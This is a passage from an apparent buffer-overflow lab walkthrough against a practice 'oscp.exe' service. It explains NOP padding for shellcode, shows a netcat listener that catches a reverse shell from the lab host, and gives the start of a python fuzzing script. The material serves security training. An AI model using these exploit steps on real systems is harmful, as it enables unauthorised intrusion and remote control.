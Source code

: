 ### Prepend NOPs

NOP is a __No Operation__ byte, it tells CPU to do nothing. If the shellcode is encoded to bypass security mechanisms, it will need more space to unpack itself. That might cause the shellcode to end up in an unexpected place in memory, which is why ESP will be overwritten with an array of NOPs __followed by__ the shellcode, so that the CPU follows the NOPs directly to it:

```
padding = "\x90" * 16
```

### Exploit

Now we only need to restart `oscp.exe` in Immunity Debugger, but this time we start a netcat listener on our host machine, before we run the `exploit.py` again:

```
nc -lvnp 9822
```

And we got the shell:

```
nc -lvnp 9822
listening on [any] 9822 ...
connect to [10.11.100.243] from (UNKNOWN) [10.10.188.234] 49286
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp> whoami
 whoami
oscp-bof-prep\admin
```

## _OVERFLOW 2 -> 10_

This time around I will modify our two python files `fuzzer.py` and `exploit.py` so that they can accept the values we need to change in them so frequently as arguments. `fuzzer.py` will look like this:

```python3
#!/usr/bin/env python3

import socket
import time
import sys
import argparse

parser = argparse.ArgumentParser(description="Fuzzing script")
parser.add_argument("--ip", required=True, help="Target IP address")
parser.add_argument("--port", type=int, default=1337, help="Target port (default: 1337)")
parser.add_argument("--prefix", required=True, help="Prefix for the payload")
args = parser.parse_args()

ip = args.ip
port = args.port
prefix = f"OVERFLOW{args.prefix} "

timeout = 5
string = prefix + "A" * 100

while True:
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(timeout)
            s.connect((ip, port))
            s.recv(1024)
```